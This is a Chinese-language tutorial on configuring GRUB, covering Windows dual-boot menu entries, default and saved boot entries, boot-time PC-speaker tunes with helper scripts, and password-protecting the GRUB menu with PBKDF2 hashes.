<figure class="highlight nginx"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br></pre></td><td class="code"><pre><span class="line">if [ "$&#123;grub_platform&#125;" == "efi" ]; then</span><br><span class="line">	<span class="attribute">menuentry</span> <span class="string">"Microsoft Windows Vista/7/8/8.1 UEFI/GPT"</span> &#123;</span><br><span class="line">		<span class="attribute">insmod</span> part_gpt</span><br><span class="line">		insmod fat</span><br><span class="line">		insmod chain</span><br><span class="line">		search --<span class="literal">no</span>-floppy --fs-uuid --set=root <span class="variable">$hints_string</span> <span class="variable">$fs_uuid</span></span><br><span class="line">		chainloader /EFI/Microsoft/Boot/bootmgfw.efi</span><br><span class="line">	&#125;</span><br><span class="line">fi</span><br></pre></td></tr></table></figure>
<p>其中 <code>$hints_string</code> 和 <code>$fs_uuid</code> 由下述两个命令得到。</p>
<p><code>$fs_uuid</code> 命令检测 EFI 系统分区的 UUID：</p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line"># grub-probe --target=fs_uuid esp/EFI/Microsoft/Boot/bootmgfw.efi</span><br><span class="line"><span class="number">1</span>ce5<span class="number">-7f</span>28</span><br></pre></td></tr></table></figure>
<p>或者你可以（以 root 身份）运行 <code>blkid</code> 然后从结果中找到 EFI 系统分区的 UUID。</p>
<p><code>$hints_string</code> 命令可以确定 EFI 系统分区的位置，在当前的例子中是 harddrive 0：</p>
<figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment"># grub-probe --target=hints_string esp/EFI/Microsoft/Boot/bootmgfw.efi</span></span><br><span class="line"><span class="attribute">--hint-bios</span>=hd0,gpt1 <span class="attribute">--hint-efi</span>=hd0,gpt1 <span class="attribute">--hint-baremetal</span>=ahci0,gpt1</span><br></pre></td></tr></table></figure>
<p>这两个命令都是假设 Windows 使用的 ESP 是挂载在<code>$esp</code>上的。当然，Windows的 EFI 文件路径可能有变,因为这就是Windows….</p>
<h6 id="BIOS-MBR-模式下安装的-Windows"><a href="#BIOS-MBR-模式下安装的-Windows" class="headerlink" title="BIOS/MBR 模式下安装的 Windows"></a>BIOS/MBR 模式下安装的 Windows</h6><p><strong>注意：</strong> GRUB 支持直接启动 <code>bootmgr</code>，如今启动 BIOS/MBR 模式下安装的 Windows 时不再需要<a href="https://www.gnu.org/software/grub/manual/grub.html#Chain_002dloading" target="_blank" rel="noopener">链式加载</a>分区启动扇区了。</p>
<p><strong>警告：</strong> <code>bootmgr</code> 位于<strong>系统分区</strong>(<strong>system partition</strong>)，而不是 Windows 系统所在的分区（通常为 <code>C:</code> 盘）。系统分区的<a href="https://wiki.archlinux.org/index.php/Persistent_block_device_naming_(简体中文" target="_blank" rel="noopener">文件系统标签</a>#by-label) 是 <code>System Reserved</code> 或者 <code>SYSTEM</code> 而且这个分区的容量只有大概 100 到 549 MB。详情参考 <a href="https://en.wikipedia.org/wiki/System_partition_and_boot_partition" target="_blank" rel="noopener">Wikipedia:System partition and boot partition</a>。</p>
<p>本节假设你的 Windows 分区是 <code>/dev/sda1</code>。如果分区不同，需要对每一处 <code>hd0,msdos1</code> 进行修改。</p>
<p><strong>注意：</strong> 这些菜单条目仅在 BIOS 启动模式下可用，不能在 UEFI 模式下安装的 GRUB 上使用。参考 <a href="https://wiki.archlinux.org/index.php/Dual_boot_with_Windows_(简体中文" target="_blank" rel="noopener">Dual boot with Windows (简体中文)#Windows UEFI 和 BIOS 启动限制</a>#Windows<em>UEFI</em>和<em>BIOS</em>启动限制) 和 <a href="https://wiki.archlinux.org/index.php/Dual_boot_with_Windows_(简体中文" target="_blank" rel="noopener">Dual boot with Windows (简体中文)#UEFI / BIOS 启动管理器限制</a>#UEFI<em>/_BIOS</em>启动管理器限制)。</p>
<p>在所有例子里，<code>*XXXXXXXXXXXXXXXX*</code>是指文件系统的 UUID，可以通过 <code>lsblk --fs</code> 命令得到。</p>
<p>对于 Windows Vista/7/8/8.1/10：</p>
<figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br></pre></td><td class="code"><pre><span class="line"><span class="keyword">if</span> [ <span class="string">"<span class="variable">$&#123;grub_platform&#125;</span>"</span> == <span class="string">"pc"</span> ]; then</span><br><span class="line">	menuentry <span class="string">"Microsoft Windows Vista/7/8/8.1/10 BIOS/MBR"</span> &#123;</span><br><span class="line">		insmod part_msdos</span><br><span class="line">		insmod ntfs</span><br><span class="line">		insmod ntldr     </span><br><span class="line">		search --no-floppy --fs-uuid <span class="attribute">--set</span>=root <span class="attribute">--hint-bios</span>=hd0,msdos1 <span class="attribute">--hint-efi</span>=hd0,msdos1 <span class="attribute">--hint-baremetal</span>=ahci0,msdos1 XXXXXXXXXXXXXXXX</span><br><span class="line">		ntldr /bootmgr</span><br><span class="line">	&#125;</span><br><span class="line">fi</span><br></pre></td></tr></table></figure>
<p>对于 Windows XP：</p>
<figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br></pre></td><td class="code"><pre><span class="line"><span class="keyword">if</span> [ <span class="string">"<span class="variable">$&#123;grub_platform&#125;</span>"</span> == <span class="string">"pc"</span> ]; then</span><br><span class="line">	menuentry <span class="string">"Microsoft Windows XP"</span> &#123;</span><br><span class="line">		insmod part_msdos</span><br><span class="line">		insmod ntfs</span><br><span class="line">		insmod ntldr     </span><br><span class="line">		search --no-floppy --fs-uuid <span class="attribute">--set</span>=root <span class="attribute">--hint-bios</span>=hd0,msdos1 <span class="attribute">--hint-efi</span>=hd0,msdos1 <span class="attribute">--hint-baremetal</span>=ahci0,msdos1 XXXXXXXXXXXXXXXX</span><br><span class="line">		ntldr /ntldr</span><br><span class="line">	&#125;</span><br><span class="line">fi</span><br></pre></td></tr></table></figure>
<p>更多引导设备、方式请参见：</p>
<ul>
<li><a href="https://github.com/hackerncoder/multibootusb" target="_blank" rel="noopener">https://github.com/hackerncoder/multibootusb</a> </li>
<li><a href="https://wiki.archlinux.org/index.php/GRUB_(%E7%AE%80%E4%BD%93%E4%B8%AD%E6%96%87)/Tips_and_tricks_(%E7%AE%80%E4%BD%93%E4%B8%AD%E6%96%87" target="_blank" rel="noopener">https://wiki.archlinux.org/index.php/GRUB_(%E7%AE%80%E4%BD%93%E4%B8%AD%E6%96%87)/Tips_and_tricks_(%E7%AE%80%E4%BD%93%E4%B8%AD%E6%96%87</a>)</li>
</ul>
<h4 id="取消子菜单"><a href="#取消子菜单" class="headerlink" title="取消子菜单"></a>取消子菜单</h4><p>如果你安装了多个内核，比如说 linux 和 linux-lts，那么 <code>grub-mkconfig</code> 默认会把他们分成一组建立一个子菜单。如果你不想这样，可以在 <code>/etc/default/grub</code> 文件里添加下面这行来回到仅有一个菜单的情形：</p>
<figure class="highlight ini"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="attr">GRUB_DISABLE_SUBMENU</span>=y</span><br></pre></td></tr></table></figure>
<h4 id="调用之前的启动条目"><a href="#调用之前的启动条目" class="headerlink" title="调用之前的启动条目"></a>调用之前的启动条目</h4><p>GRUB 能够记住你最近一次使用的启动项，并且在下次启动时将其作为默认项。当你使用多个内核或操作系统时（比如当前的 Arch 和一个用来做后备选项的 LTS 内核），这个特性很有用。要开启这个功能，编辑 <code>/etc/default/grub</code> 中的 <code>GRUB_DEFAULT</code> 选项：</p>
<figure class="highlight ini"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="attr">GRUB_DEFAULT</span>=saved</span><br></pre></td></tr></table></figure>
<p>上面的命令会告诉 GRUB 使用记住的启动项为默认启动项。要想让 GRUB 记住当前选择的启动项，将下面的行添加到 <code>/etc/default/grub</code>：</p>
<figure class="highlight ini"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="attr">GRUB_SAVEDEFAULT</span>=<span class="literal">true</span></span><br></pre></td></tr></table></figure>
<p>仅当 /boot 不是 btrfs 文件系统的时候才能用，因为 GRUB 没法对 btrfs 进行写入操作。但它会生成一个容易误导人的错误信息：”sparse file not allowed. Press any key to continue.”</p>
<p><strong>注意：</strong> 手动添加启动项到 <code>/etc/grub.d/40_custom</code> 或 <code>/boot/grub/custom.cfg</code>中，比如添加 Windows 启动项，需要先添加<code>savedefault</code>选项。</p>
<h4 id="修改默认菜单条目"><a href="#修改默认菜单条目" class="headerlink" title="修改默认菜单条目"></a>修改默认菜单条目</h4><p>可以通过修改 <code>/etc/default/grub</code> 中的 <code>GRUB_DEFAULT</code> 值来改变默认启动项：</p>
<p>使用菜单标题：</p>
<figure class="highlight ini"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="attr">GRUB_DEFAULT</span>=<span class="string">'Advanced options for Arch Linux&gt;Arch Linux, with Linux linux'</span></span><br></pre></td></tr></table></figure>
<p>使用数字编号：</p>
<figure class="highlight ini"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="attr">GRUB_DEFAULT</span>=<span class="string">"1&gt;2"</span></span><br></pre></td></tr></table></figure>
<p>GRUB 启动项序号从 0 开始计数，0 代表第一个启动项，也是上述选项的默认值，1 表示第二个启动项，以此类推。主菜单和子菜单项之间用 <code>&gt;</code> 隔开。</p>
<p>上面的例子启动的是主菜单项 ‘Advanced options for Arch Linux’ 下子菜单的第三项。</p>
<h4 id="自动启动非默认启动条目（仅一次）"><a href="#自动启动非默认启动条目（仅一次）" class="headerlink" title="自动启动非默认启动条目（仅一次）"></a>自动启动非默认启动条目（仅一次）</h4><p>如果你想在下一次启动的时候启动一个非默认的启动项，命令 <code>grub-reboot</code> 非常有用。当系统下一次启动时，GRUB 会自动载入这个命令后的第一个参数所指的那个启动项，而以后再次启动时，GRUB 会回到正常状态加载默认条目。这样就不用修改配置文件或者在启动时进行手动选择了。</p>
<p><strong>注意：</strong> 这个功能需要在 <code>/etc/default/grub</code> 中设定 <code>GRUB_DEFAULT=saved</code>，然后重新生成<code>grub.cfg</code>；或者在手动生成的 <code>grub.cfg</code> 中, 使用 <code>set default=&quot;${saved_entry}&quot;</code>。</p>
<h4 id="演奏一曲——酷吗？"><a href="#演奏一曲——酷吗？" class="headerlink" title="演奏一曲——酷吗？"></a>演奏一曲——酷吗？</h4><p>通过修改 <code>GRUB_INIT_TUNE</code> 变量，你可以在启动时让 PC-speaker 演奏曲子。比如要演奏柏辽兹《幻想交响曲》“妖魔夜宴”乐章片段（大管部分），你可以添加下面的设置：</p>
<figure class="highlight yaml"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="string">GRUB_INIT_TUNE="312</span> <span class="number">262</span> <span class="number">3</span> <span class="number">247</span> <span class="number">3</span> <span class="number">262</span> <span class="number">3</span> <span class="number">220</span> <span class="number">3</span> <span class="number">247</span> <span class="number">3</span> <span class="number">196</span> <span class="number">3</span> <span class="number">220</span> <span class="number">3</span> <span class="number">220</span> <span class="number">3</span> <span class="number">262</span> <span class="number">3</span> <span class="number">262</span> <span class="number">3</span> <span class="number">294</span> <span class="number">3</span> <span class="number">262</span> <span class="number">3</span> <span class="number">247</span> <span class="number">3</span> <span class="number">220</span> <span class="number">3</span> <span class="number">196</span> <span class="number">3</span> <span class="number">247</span> <span class="number">3</span> <span class="number">262</span> <span class="number">3</span> <span class="number">247</span> <span class="number">5</span> <span class="number">220</span> <span class="number">1</span> <span class="number">220</span> <span class="number">5</span><span class="string">"</span></span><br></pre></td></tr></table></figure>
<p>更多相关信息可以查看 <code>info grub -n play</code>。</p>
<p>关于开机音乐更多信息：</p>
<p>From：<a href="https://itectec.com/ubuntu/ubuntu-play-a-sound-before-or-after-grub-loads/" target="_blank" rel="noopener">https://itectec.com/ubuntu/ubuntu-play-a-sound-before-or-after-grub-loads/</a></p>
<h5 id="现成乐谱"><a href="#现成乐谱" class="headerlink" title="现成乐谱"></a>现成乐谱</h5><ul>
<li><a href="https://gist.github.com/MaxLaumeister/f93717e91c8bd9d435a5" target="_blank" rel="noopener">Mario Bros. Mushroom Powerup</a>: <code>1750 523 1 392 1 523 1 659 1 784 1 1047 1 784 1 415 1 523 1 622 1 831 1 622 1 831 1 1046 1 1244 1 1661 1 1244 1 466 1 587 1 698 1 932 1 1195 1 1397 1 1865 1 1397 1</code></li>
<li><a href="http://www.commandlinefu.com/commands/view/8595/grub2-set-imperial-death-march-as-startup-tune" target="_blank" rel="noopener">Star Wars’ Imperial Death March</a>: <code>480 440 4 440 4 440 4 349 3 523 1 440 4 349 3 523 1 440 8 659 4 659 4 659 4 698 3 523 1 415 4 349 3 523 1 440 8</code></li>
<li><a href="https://askubuntu.com/a/141964/185194" target="_blank" rel="noopener">xiè-jìléi’s tune</a> (ascending): <code>2000 400 4 0 1 500 4 0 1 600 4 0 1 800 6</code></li>
<li><a href="https://askubuntu.com/a/165520/185194" target="_blank" rel="noopener">Adams’s tune</a> (rington-like to me): <code>480 220 1 277 1 330 1 440 1 185 1 220 1 277 1 370 1 294 1 370 1 440 1 587 1 330 1 415 1 494 1 659 1</code></li>
<li><a href="https://forums.linuxmint.com/viewtopic.php?t=174854" target="_blank" rel="noopener">更多</a></li>
</ul>
<h5 id="了解曲调"><a href="#了解曲调" class="headerlink" title="了解曲调"></a>了解曲调</h5><p>语法为： <code>GRUB_INIT_TUNE=&quot;</code><em><code>tempo [pitch1 duration1] [pitch2 duration2] ...</code></em><code>&quot;</code></p>
<blockquote>
<p>速度是所有音符持续时间的基础。60给出1秒的基数，120给出半秒的基数，依此类推。音调为Hz。将音调设置为0即可产生静止。</p>
</blockquote>
<p>来源：<a href="http://www.gnu.org/software/grub/manual/grub.html" target="_blank" rel="noopener">grub文档</a>，grub <a href="http://www.gnu.org/software/grub/manual/grub.html#play" target="_blank" rel="noopener">play</a>命令文档（同一页）。</p>
<h5 id="预览-测试音乐"><a href="#预览-测试音乐" class="headerlink" title="预览/测试音乐"></a>预览/测试音乐</h5><p>如果您想测试音调：安装<code>sox</code>并使用该<a href="https://ubuntuforums.org/showthread.php?t=1739495" target="_blank" rel="noopener">ubuntuforum.org线程中</a>的脚本（我稍作修改以删除警告）：</p>
<h6 id="平淡无奇的音乐"><a href="#平淡无奇的音乐" class="headerlink" title="平淡无奇的音乐"></a>平淡无奇的音乐</h6><figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br></pre></td><td class="code"><pre><span class="line">#!&#x2F;bin&#x2F;dash</span><br><span class="line"></span><br><span class="line">if [ $# -lt 3 ]; then</span><br><span class="line">    echo &quot;Usage: $0 tempo freq dur [freq dur freq dur...]&quot; &gt;&amp;2</span><br><span class="line">    exit 1</span><br><span class="line">fi</span><br><span class="line"></span><br><span class="line">tempo&#x3D;$1; shift</span><br><span class="line"></span><br><span class="line">tmpdir&#x3D;$(mktemp -d)</span><br><span class="line"></span><br><span class="line">while [ -n &quot;$*&quot; ]; do</span><br><span class="line">    freq&#x3D;$1; shift</span><br><span class="line">    dur&#x3D;$1;  shift</span><br><span class="line">    dur&#x3D;$(echo &quot;$dur*(60&#x2F;$tempo)&quot;|bc -l)</span><br><span class="line">    sox -e mu-law -r 8000 -n -t raw - synth $dur sine $freq &gt;&gt;$tmpdir&#x2F;grubtune.ul 2&gt; &#x2F;dev&#x2F;null</span><br><span class="line">done</span><br><span class="line"></span><br><span class="line">play -q -c1 -r 8000 $tmpdir&#x2F;grubtune.ul</span><br><span class="line"></span><br><span class="line">rm -r $tmpdir</span><br></pre></td></tr></table></figure>
<p>使它可执行 <code>chmod +x grub-playtune</code></p>
<p>使用示例：</p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">grub-playtune 2000 400 4 0 1 500 4 0 1 600 4 0 1 800 6</span><br></pre></td></tr></table></figure>
<h5 id="音符的频率"><a href="#音符的频率" class="headerlink" title="音符的频率"></a>音符的频率</h5><p>一个基于python3的脚本来计算音符的频率：</p>
<h6 id="音调"><a href="#音调" class="headerlink" title="音调"></a>音调</h6><figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">#!/bin/bash</span></span><br><span class="line"></span><br><span class="line">python3 -c <span class="string">"print(*(int(0.5 + 440 * 2 ** (note/12)) for note in (<span class="variable">$&#123;*/%/,&#125;</span>)))"</span></span><br></pre></td></tr></table></figure>
<p>使用示例：</p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br></pre></td><td class="code"><pre><span class="line">$ pitch 0        <span class="comment"># gives you A_4</span></span><br><span class="line">440</span><br><span class="line">$ pitch 2        <span class="comment"># gives you B_4</span></span><br><span class="line">494</span><br><span class="line">$ pitch -2       <span class="comment"># gives you G_3</span></span><br><span class="line">392</span><br><span class="line">$ pitch -12 0 12 <span class="comment"># gives you A_3, A_4 and A_5</span></span><br><span class="line">220 440 880</span><br></pre></td></tr></table></figure>
<hr>
<h6 id="频率表"><a href="#频率表" class="headerlink" title="频率表"></a>频率表</h6><p><a href="http://www.phy.mtu.edu/~suits/notefreq446.html" target="_blank" rel="noopener">这里</a>有一个。也可以使用上面的脚本生成它，如下所示：</p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line">$ pitch &#123;-12..0&#125; <span class="comment"># A_3 to A_4</span></span><br><span class="line">220 233 247 262 277 294 311 330 349 370 392 415 440</span><br><span class="line">$ pitch &#123;0..12&#125; <span class="comment"># A_4 to A_5</span></span><br><span class="line">440 466 494 523 554 587 622 659 698 740 784 831 880</span><br><span class="line">$ pitch &#123;12..24&#125; <span class="comment"># A_5 to A_6</span></span><br><span class="line">880 932 988 1047 1109 1175 1245 1319 1397 1480 1568 1661 1760</span><br></pre></td></tr></table></figure>
<h4 id="加密的GRUB-——-密码保护GRUB菜单，或者仅防止编辑（推荐）"><a href="#加密的GRUB-——-密码保护GRUB菜单，或者仅防止编辑（推荐）" class="headerlink" title="加密的GRUB —— 密码保护GRUB菜单，或者仅防止编辑（推荐）"></a>加密的GRUB —— 密码保护GRUB菜单，或者仅防止编辑（推荐）</h4><h5 id="GRUB-配置文件组成结构"><a href="#GRUB-配置文件组成结构" class="headerlink" title="GRUB 配置文件组成结构"></a>GRUB 配置文件组成结构</h5><p>注意：<code>/etc/grub.d/</code>文件夹中的文件如果无执行权限，相当于无效</p>
<ul>
<li><code>/boot/grub/grub.cfg</code> 负责直接指导 GRUB 运行的配置文件(一般不编辑)。</li>
<li><code>grub-mkconfig</code> 负责生成上述 <code>grub.cfg</code> 配置文件的程序。</li>
<li><code>/etc/grub.d/</code> 执行上述 <code>grub-mkconfig</code> 时使用的一系列 shell 脚本（实现高级功能）。</li>
<li><code>/etc/default/grub</code> 控制上述 <code>grub-mkconfig</code> 执行时的行为的配置文件（简单功能）。</li>
</ul>
<figure class="highlight livecodeserver"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line">例如:</span><br><span class="line">/etc/default/grub</span><br><span class="line">可以看到/etc/default/grub文件里有GRUB_CMDLINE_LINUX=<span class="string">"crashkernel=auto rhgb quiet idle=halt biosdevname=0 net.ifnames=0 console=tty0 console=ttyS0,115200n8 noibrs nvme_core.io_timeout=4294967295 nvme_core.admin_timeout=4294967295"</span>这样一行，rhgb表示图形化启动，启动界面有进度条，quiet表示静默安装，只打印必要的开机信息。</span><br><span class="line"></span><br><span class="line">	The *superuser/user* information <span class="keyword">and</span> password <span class="built_in">do</span> <span class="keyword">not</span> *have* <span class="built_in">to</span> be contained <span class="keyword">in</span> <span class="keyword">the</span> */etc/grub.d/<span class="number">00</span>_header* <span class="built_in">file</span>. The information can be placed <span class="keyword">in</span> <span class="keyword">any</span> */etc/grub.d* <span class="built_in">file</span> <span class="keyword">as</span> <span class="keyword">long</span> <span class="keyword">as</span> that <span class="built_in">file</span> is incorporated <span class="keyword">into</span> *grub.cfg*. The user may prefer <span class="built_in">to</span> enter this data <span class="keyword">into</span> <span class="keyword">a</span> custom <span class="built_in">file</span>, such <span class="keyword">as</span> */etc/grub.d/<span class="number">40</span>_custom* so <span class="keyword">it</span> is <span class="keyword">not</span> overwritten should <span class="keyword">the</span> Grub package be updated. If placing <span class="keyword">the</span> information <span class="keyword">in</span> <span class="keyword">a</span> custom <span class="built_in">file</span>, <span class="built_in">do</span> *<span class="keyword">not</span>* <span class="built_in">include</span> <span class="keyword">the</span> <span class="string">"cat &lt;&lt; EOF"</span> <span class="keyword">and</span> <span class="string">"EOF"</span> <span class="keyword">lines</span> <span class="keyword">as</span> <span class="keyword">the</span> content is automatically added <span class="built_in">from</span> these <span class="built_in">files</span>. </span><br><span class="line">超级用户/用户*信息和密码*不*包含在*/etc/grub.d/<span class="number">00</span>_header* 文件中。 该信息可以放置在任何 */etc/grub.d* 文件中，只要该文件合并到 *grub.cfg* 中即可。 用户可能更愿意将此数据输入到自定义文件中，例如 */etc/grub.d/<span class="number">40</span>_custom*，这样即使 Grub 软件包更新，它也不会被覆盖。 如果将信息放入自定义文件中，请勿*包含“cat &lt;&lt; <span class="literal">EOF</span>”和“<span class="literal">EOF</span>”行，因为内容是从这些文件中自动添加的。</span><br></pre></td></tr></table></figure>
<h5 id="用密码保护-GRUB-菜单"><a href="#用密码保护-GRUB-菜单" class="headerlink" title="用密码保护 GRUB 菜单"></a>用密码保护 GRUB 菜单</h5><p><strong>警告：</strong> 如果有人能对你的机器进行物理上的访问，而且可以使用 Live USB 或磁盘启动（例如 BIOS 允许从外接磁盘启动），而 <code>/boot</code> 又处于一个没有加密的分区上面，那他就可以非常简单地通过编辑 GRUB 设置文件来绕过下面的这些。参考<a href="https://wiki.archlinux.org/index.php/GRUB_(简体中文" target="_blank" rel="noopener">GRUB (简体中文)#/boot 加密</a>#/boot<em>加密)和[Security (简体中文)#磁盘加密](<a href="https://wiki.archlinux.org/index.php/Security" target="_blank" rel="noopener">https://wiki.archlinux.org/index.php/Security</a></em>(简体中文)#磁盘加密)。</p>
<p>如果你想禁止其他人改变启动参数或者使用 GRUB 命令行，可以给 GRUB 的配置文件关联一个用户名/密码。只需 运行 <code>grub-mkpasswd-pbkdf2</code>，输入密码然后确认：</p>
<figure class="highlight css"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br></pre></td><td class="code"><pre><span class="line"><span class="selector-tag">grub-mkpasswd-pbkdf2</span></span><br><span class="line"><span class="selector-attr">[...]</span></span><br><span class="line"><span class="selector-tag">Your</span> <span class="selector-tag">PBKDF2</span> <span class="selector-tag">is</span> <span class="selector-tag">grub</span><span class="selector-class">.pbkdf2</span><span class="selector-class">.sha512</span><span class="selector-class">.10000</span><span class="selector-class">.C8ABD3E93C4DFC83138B0C7A3D719BC650E6234310DA069E6FDB0DD4156313DA3D0D9BFFC2846C21D5A2DDA515114CF6378F8A064C94198D0618E70D23717E82</span><span class="selector-class">.509BFA8A4217EAD0B33C87432524C0B6B64B34FBAD22D3E6E6874D9B101996C5F98AB1746FE7C7199147ECF4ABD8661C222EEEDB7D14A843261FFF2C07B1269A</span></span><br><span class="line"></span><br><span class="line">输入口令：???????</span><br><span class="line">重新输入口令：</span><br><span class="line">您的密码的 <span class="selector-tag">PBKDF2</span> 散列为 <span class="selector-tag">grub</span><span class="selector-class">.pbkdf2</span><span class="selector-class">.sha512</span><span class="selector-class">.10000</span><span class="selector-class">.23326FAA32B59868779E3CE14090E6F247C841AE0A678F1A55FACC0B133853A2357F5845E88040E5694D0DDE055391E9BC659F3290AF88ACE4B0BE224764B4BC</span><span class="selector-class">.42F1758D8C127A69EED3CB9A762F92461C4D6C7F027B8853873BC0EEDC0E73072348C4A5CAD84349037FE4B1D0BB9FEE8F93E04649C530285FFDA29E5C777EC7</span></span><br></pre></td></tr></table></figure>
<p>然后将下面的内容添加到 <code>/etc/grub.d/40_custom</code>：</p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br></pre></td><td class="code"><pre><span class="line">格式:</span><br><span class="line">/etc/grub.d/40_custom</span><br><span class="line"><span class="built_in">set</span> superusers=<span class="string">"用户名"</span></span><br><span class="line">password_pbkdf2 用户名 &lt;密码&gt;</span><br><span class="line"></span><br><span class="line">e.g.:</span><br><span class="line"><span class="meta">#!/bin/sh</span></span><br><span class="line"><span class="comment"># /etc/grub.d/40_custom</span></span><br><span class="line"><span class="built_in">exec</span> tail -n +3 <span class="variable">$0</span></span><br><span class="line"><span class="comment"># This file provides an easy way to add custom menu entries.  Simply type the menu entries you want to add after this comment.  Be careful not to change the 'exec </span></span><br><span class="line"><span class="comment"># tail' line above.</span></span><br><span class="line"></span><br><span class="line"><span class="built_in">set</span> superusers=<span class="string">"admin"</span></span><br><span class="line">password_pbkdf2 admin grub.pbkdf2.sha512.10000.23326FAA32B59868779E3CE14090E6F247C841AE0A678F1A55FACC0B133853A2357F5845E88040E5694D0DDE055391E9BC659F3290AF88ACE4B0BE224764B4BC.42F1758D8C127A69EED3CB9A762F92461C4D6C7F027B8853873BC0EEDC0E73072348C4A5CAD84349037FE4B1D0BB9FEE8F93E04649C530285FFDA29E5C777EC7</span><br><span class="line"></span><br><span class="line">-----------------------------------分割----------------------------------------</span><br><span class="line"></span><br><span class="line"><span class="meta">#!/bin/sh</span></span><br><span class="line"><span class="comment"># /etc/grub.d/41_custom</span></span><br><span class="line">cat &lt;&lt;EOF</span><br><span class="line"><span class="keyword">if</span> [ -f  \<span class="variable">$&#123;config_directory&#125;</span>/custom.cfg ]; <span class="keyword">then</span></span><br><span class="line">  <span class="built_in">source</span> \<span class="variable">$&#123;config_directory&#125;</span>/custom.cfg</span><br><span class="line"><span class="keyword">elif</span> [ -z <span class="string">"\$&#123;config_directory&#125;"</span> -a -f  \<span class="variable">$prefix</span>/custom.cfg ]; <span class="keyword">then</span></span><br><span class="line">  <span class="built_in">source</span> \<span class="variable">$prefix</span>/custom.cfg</span><br><span class="line"><span class="keyword">fi</span></span><br><span class="line">EOF</span><br></pre></td></tr></table></figure>
<p>这里的 <code>&lt;密码&gt;</code> 是由 <code>grub-mkpasswd_pbkdf2</code> 所生成的那个字符串。</p>
<p>然后重新生成主配置文件，现在你的 GRUB 命令行、启动参数和所有的启动条目都得到保护了。</p>
<p>可以参考 <a href="https://www.gnu.org/software/grub/manual/grub.html#Security" target="_blank" rel="noopener">GRUB 手册</a>中的 “Security” 部分来将设置放宽或者针对多用户进行更复杂的定制。</p>
<blockquote>
<p><strong>通过以上操作，GRUB的所有菜单项目全部都要输入密码才能使用（包括进入、启动、编辑、命令行）</strong></p>
</blockquote>
<h5 id="只针对编辑-GRUB-和控制台选项进行密码保护"><a href="#只针对编辑-GRUB-和控制台选项进行密码保护" class="headerlink" title="只针对编辑 GRUB 和控制台选项进行密码保护"></a>只针对编辑 GRUB 和控制台选项进行密码保护</h5><blockquote>
<p><a href="https://superuser.com/questions/1001810/grub-menu-edit-protection-only" target="_blank" rel="noopener">https://superuser.com/questions/1001810/grub-menu-edit-protection-only</a><br><a href="http://daniel-lange.com/archives/75-Securing-the-grub-boot-loader.html" target="_blank" rel="noopener">http://daniel-lange.com/archives/75-Securing-the-grub-boot-loader.html</a><br><a href="https://help.ubuntu.com/community/Grub2/Passwords" target="_blank" rel="noopener">https://help.ubuntu.com/community/Grub2/Passwords</a></p>
</blockquote>
